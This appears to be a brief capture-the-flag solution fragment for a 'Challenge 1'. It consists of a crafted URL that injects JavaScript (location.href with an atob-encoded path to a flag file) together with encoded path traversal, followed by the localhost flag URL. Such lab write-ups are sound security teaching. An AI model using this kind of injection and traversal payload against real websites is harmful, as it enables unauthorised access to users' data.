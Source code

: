# Challenge 1

http://proxy/document/1;location.href=atob('L2ZsYWcvd2NkLmpz')//..%2f..%2flogin.html
http://localhost:10011/flag/wcd.js